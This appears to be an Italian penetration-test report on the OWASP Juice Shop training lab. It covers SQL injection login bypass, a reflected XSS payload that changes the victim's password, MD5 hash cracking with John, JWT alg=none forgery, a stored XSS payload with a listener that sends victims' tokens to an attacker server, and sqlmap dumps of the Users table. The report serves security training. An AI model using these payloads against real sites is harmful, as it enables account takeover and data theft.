

# 1. SQL injection
## Introduzione
Durante la fase di information gathering, è stata individuata la possibilità per l'utente di inviare input arbitrari tramite la pagina di `login`. Gli input utente vengono trasmessi al server backend.

L'analisi del comportamento del backend ha rivelato che il server, al momento del login, costruisce dinamicamente una query SQL tramite concatenazione diretta dei parametri `email` e `password` forniti dall'utente. Questo comportamento introduce una potenziale vulnerabilità di SQL Injection. In questo caso, l'assenza di `prepared statements` o `escaped input` rende la query suscettibile a manipolazione da parte di un attaccante.

Sfruttando la vulnerabilità e l'assenza di controlli, un attaccante può costruire un payload malevolo per bypassare la verifica della password ed effettuare il login su un account esistente (tipicamente l'amministratore), conoscendone solo l'`indirizzo email`.

## Riproducibilità
1. Andare nella pagina di login del sito.
2. Nel campo `email` usare una delle email trovate tramite le review dei prodotto durante l'information gathering. Un email di esempio è: `admin@juice-sh.op`.
3. Nel campo email quindi scrivere l'email di admin oppure un email di un utente a scelta seguito da 2 trattini:
```sql
admin@juice-sh.op' --
```
4. Questo codice esegue una query SQL concatenata che permette di ignorare tutto il codice SQL che c'è dopo `--`:
```sql
SELECT * FROM users WHERE email = 'admin@juice-sh.op' -- AND PASSWORD = '' AND deletedAt IS NULL
```
Tutto il codice dopo `--` quindi `AND PASSWORD ...` viene ignorato. Controlla solo se l'email è valido.

5. Il campo password può essere riempito con una qualsiasi password. 
5. Dopo aver eseguito il login, il server restituisce l'accesso all'account da `admin`.
6. Si può ripetere tutte queste operazioni per tutti gli altri utenti registrati.

## Prova dell'attacco


# 2. XSS Injection
## Introduzione
### 1. Endpoint di cambio password non autenticato
L'applicazione espone un endpoint per il cambio password attraverso la seguente richiesta GET:

`GET /rest/user/change-password?current=oldPass&new=newPass&repeat=newPass`

- Il parametro `current` (password attuale) **non è obbligatorio**: è possibile inviare la richiesta omettendo tale parametro.
- Il server **non esegue alcun controllo server-side** sull'effettiva validità o presenza della password attuale.
- Questo comporta che un attaccante autenticato (o con sessione valida) potrebbe modificare arbitrariamente la propria password (o potenzialmente quella di altri utenti, in presenza di ulteriori vulnerabilità).

### 2. Input non sanitizzato nella funzionalità di ricerca
La funzionalità di ricerca accetta input utente non filtrato, ed è stato rilevato tramite VA (Vulnerability Assessment) che è vulnerabile ad **attacchi di tipo Cross-Site Scripting (XSS)**.

- L’input inserito nel campo di ricerca viene riflesso nella risposta HTML senza opportune misure di escaping o sanitizzazione.
- È possibile iniettare ed eseguire codice JavaScript arbitrario lato client.

**Esempio di payload XSS**
```html
<iframe src="javascript:xmlHttpRequest = new XMLHttpRequest();
   xmlHttpRequest.open('GET', 'http://localhost:3000/rest/user/change-password?
   new=hackedPassword123&amp;repeat=hackedPassword123');
   xmlHttpRequest.setRequestHeader('Authorization',
   `Bearer=${localStorage.getItem('token')}`);
   xmlHttpRequest.send();"></iframe>
```

Questo frame contenente del codice Javascript malevole, viene eseguito andando a creare una XMLHttpRequest che permette di effettuare richieste al server autenticate usando il token utente valido che è stato memorizzato nel browser.

In particolare, è possibile creare un link malevolo da inviare al cliente che, se venisse aperto, porterebbe l'utente a modificare la propria password in modo inconsapevole. Si è scoperto che la modifica della password, inoltre, non restituisce nessun messaggio effettivo dal server che l'utente normale sia in grado di osservare e che la sessione corrente dell'utente rimane valida anche dopo la modifica della password.

**Esempio di link malevolo**
```html
http://127.0.0.1:3000/#/search?q=%3Ciframe%20src%3D%22javascript:xmlHttpRequest%20%3D%20new%20XMLHttpRequest();
%20%20%20%20xmlHttpRequest.open
('GET',%20'http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DhackedPassword123%26amp;repeat%3DhackedPassword123');
%20%20%20%20xmlHttpRequest.setRequestHeader('Authorization',
%60Bearer%3D$%7BlocalStorage.getItem('token')%7D%60);
%20%20%20%20xmlHttpRequest.send();%22%3E%3C%2Fiframe%3E
```

## Riproducibilità
1. Inviare il link mavevolo all'utente da attaccare cercando di invogliarlo a spingere il link.


2. L'utente esegue il link malevolo ma non si accorge che la sua password è stata modificata.


3. Eseguire l'accesso con la email dell'utente e la sua password.



4. Accesso eseguito con successo con l'account da admin.


## Prova dell'attacco


# 3. Hash delle password con algoritmo vulnerabile
## Introduzione
Dall'information gathering si è scoperto che il server manda al client durante il logout alcune informazioni riguardante l'utente stesso e, tra le altre cose, l'hash della password utente.

Queste informazioni sono state usate nella fase di vulnerability assessment è stato scoperto che l'hash della password usava MD5 come algoritmo di hashing, il che lo rende vulnerabile ad attacchi di pre-immagine e collisione, e inoltre, è stato rilevato che l'algoritmo non utilizza un salt per proteggere le password, il che significa che due utenti con la stessa password generano lo stesso hash. Questo lo rende particolarmente vulnerabile ad attacchi di tipo brute-force e rainbow table, vulnerabilità ulteriormente aggravata dalla rapidità computazionale di MD5.

## Riproducibilità
1. Eseguire l'accesso con l'account di interesse.
2. Eseguire il logout con l'account di interesse, usando Burp suite oppure qualsiasi altro tool che permetta di intercettare la risposta del server.
3. Salvarsi l'hash della password che il server manda al client durante la fase di logout.
4. Creare un file `password.txt` in cui inserire la password nel formato:
```sh
nomeAccount:hashPassword
```
5. Creare un file `hash.txt` o scaricare un file contente riga per riga, le password più comuni utilizzate normalmente, come nell'esempio sottostante.


6. Eseguire il comando:
```sh
john --format=raw-md5 --wordlist=password.txt hash.txt
```
Che eseguirà un attacco brute-force sul file `hash.txt` usando l'algoritmo MD5 tramite il file di password chiamato `password.txt`.

7. Eseguire il comando:
```sh
john --show --format=raw-md5 hash.txt
```
Che mostrerà le password in chiaro insieme al corrispettivo nome utente o email associato.

## Prova dell'attacco


# 4. Manipolazione del JWT
## Introduzione
Durante la fase di information gathering e vulnerability assessment, è emerso che l’applicazione utilizza JSON Web Token (JWT) per gestire l’autenticazione degli utenti. In particolare, è stato osservato che il server non verifica correttamente la firma del token, accettando in certi casi anche token manipolati con l’algoritmo none.

Questa debolezza è particolarmente grave in quanto consente a un attaccante, una volta ottenuto un JWT valido, di modificare arbitrariamente il contenuto del token (es. cambiando il ruolo da "customer" a "admin") senza che il server rilevi l’alterazione. 

Il problema risiede nella mancata validazione della firma e/o nella cattiva configurazione del middleware JWT, che accetta algoritmi insicuri o non verifica l’autenticità del token.

## Riproducibilità
1. Intercettare il token JWT durante una qualsiasi richiesta al server.


2. Deserializzare il token JTW da base64 a testo in utf-8. Il token deserializzato sarà diviso in 3 parti:

1) Header: contiene le informazioni sul tipo di token e l’algoritmo di firma utilizzato.
2) Payload: contiene le informazioni che si vogliono trasmettere, come username, ruolo, scadenza, ecc.
3) Firma digitale: serve a verificare l’integrità e l’autenticità del token. Si ottiene facendo una firma crittografica del header.payload con una chiave segreta.


3. Modificare le 3 parti del token:

    1. Header: modificare l'`algoritmo` da `RS256` a `None`. Questo dirà al server di non controllare la firma digitale.
    2. Modificare il `role` da `customer` a `admin`. Questo dirà al server che l'utente in realtà è un admin.
    3. Modificare la firma digitale andandolo ad eliminare in quanto non verrà controllata dal server.
    


4. Inviare il token modificato al server allegandolo alle nuove richieste. Se il tokene risulta valido allora sarà possibile accedere a sezioni private come ad esempio `administration`.

## Prova dell'attacco


# XSS Injection persistente con intercettazione del JWT token 
## Introduzione
Come dimostrato precedentemente, il server risulta vulnerabile agli attacchi di tipologia XSS quindi è possibile inviare al server un codice JS e farlo poi eseguire dal browser del client. In Juice Shop è possibile effettuare attacchi di tipologia Store XSS però nell'ambiente Docker questa possibilità è stata disabilita in quanto potenzialmente dannosi per il sistema OS sottostante e, di conseguenza, questa parte dell'attacco viene fatto solo da un punto di vista teorico.

Dopo avere eseguito inviato il codice XSS al server, il server immagazzina il codice malevolo all'interno del Database e quando un utente richiederà la certa pagina contente lo script, esso verra automaticamente eseguito. In particolare, questa volta il codice XSS contiene uno script che invia ad un server esterno il token JWT del client permettendo all'attaccante di ottenere un token valido. Inoltre è statoscoperto tramite information gathering e VA che il server non invalida mai il token permettendo ad un attaccante di avere un accesso completo e persistente all'account anche se l'utente fa il logout, passa un certo periodo di tempo oppure esegue la modifica della password.

## Riproducibilità
1. Mandare al server il seguente codice:
```html
<iframe srcdoc="
  <script>
    fetch('http://server_ip:port/', {
      method: 'POST',
      body: JSON.stringify({ token: localStorage.getItem('token') }),
      headers: { 'Content-Type': 'application/json' }
    });
  </script>
"></iframe>
```

Per esempio intercettando una richiesta ai prodotti del sito in quanto verranno sicuramente caricati quando l'utente visiterà il sito web.


2. Connettersi al server al quale verranno inviati i token e tenere aperta la porta scelta per ascoltare le richieste API. Per esempio, il seguente codice Python crea un server in Python che ascolta le richieste sulla porta 4000.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class TokenReceiver(BaseHTTPRequestHandler):
    def do_OPTIONS(self):
        self.send_response(200)
        self.send_header('Access-Control-Allow-Origin', '*')
        self.send_header('Access-Control-Allow-Methods', 'POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        self.end_headers()

    def do_POST(self):
        self.send_response(200)
        self.send_header('Access-Control-Allow-Origin', '*')
        self.end_headers()

        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print("Token ricevuto:", post_data.decode())

server_address = ('0.0.0.0', 4000)
httpd = HTTPServer(server_address, TokenReceiver)

print("Server in ascolto sulla porta 4000...")
httpd.serve_forever()
```

3. Ogni volta che un utente visiterà la pagina dei prodotti, verranno inviati i token utente al server scelto.

4. Controllare che il token sia valido tramite richiesta API al server, per esempio tramite curl:

```sh
curl -X GET http://localhost:3000/rest/user/whoami \
  -H "Authorization: Bearer <token>" \
  -H "Cookie: token=<token>" \
  -H "Content-Type: application/json" \
  -H "Accept: application/json"
```

## Prova dell'attacco


# 5. SQL injection – Ricerca Prodotti
## Introduzione
Durante la fase di VA, è stato identificato che l'endpoint `/rest/products/search` è vulnerabile a `SQL Injection` tramite il parametro `q`, che viene incluso direttamente in una query SQL.

Il backend utilizza `SQLite`, che costruisce dinamicamente query senza sanificazione dell’input. Sfruttando tale vulnerabilità, un attaccante può manipolare la query SQL per accedere a tabelle e dati sensibili.

Poiché SQLite non supporta la lettura multipla dei db, si è proceduto direttamente con l'estrazione delle tabelle presenti nel database principale.

## Riproducibilità
1. Assicurarsi che il Juice Shop sia attivo su http://localhost:3000.
2. Lanciare il seguente comando:
``` bash
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main --tables --batch
```
3. Il comando esegue automaticamente tecniche di _boolean-based_ e _time-based injection_ per enumerare le tabelle disponibili nel db principale.
4. Si ottiene una lista di 20 tabelle, tra cui: Users, Cards, Feedbacks, Wallets, SecurityAnswers, ecc.
5. Dopo aver individuato la tabella Users, è possibile estrarne i dati con:
``` bash
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main -T Users --dump --batch
```

## Prova dell'attacco


Dati della tabella Users si trovano nel file: ../immagini/exploitation/Users.csv